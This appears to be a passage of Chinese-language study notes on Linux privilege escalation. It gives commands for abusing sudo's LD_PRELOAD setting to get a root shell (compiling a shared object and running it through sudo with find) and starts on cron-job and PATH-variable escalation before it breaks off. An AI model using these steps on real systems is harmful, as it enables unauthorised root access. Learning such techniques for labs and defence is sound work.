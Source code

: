 1. 如果 sudo -l 有 env_keep = LD_PRELOAD

	![[Pasted image 20250505225007.png]]
	
2. 使用 C 的 root shell

3. 编译
	```
	gcc -fPIC -shared -o shell.so shell.c -nostartfiles
	```
4. 提权

	```
	sudo LD_PRELOAD=/home/user/shell.so find
	```

## 自动任务提权

- 文件权限

	1.  查看自动任务

		```
		cat /etc/crontab
		```

	![[Pasted image 20250505231657.png]]

	2.  查看 .sh 文件
		
		```
		locate overwrite.sh
		```

	3.  查看文件权限

		```
		ls -liah /usr/local/bin/overwrite.sh
		```

- PATH 环境变量提权

	1.  查看 PATH 

		```
		echo $PATH
		```

		![[Pasted image 20250505232902.png]]

	2.  查看当前目录

		```
		pwd
		```

	3. 文件赋权
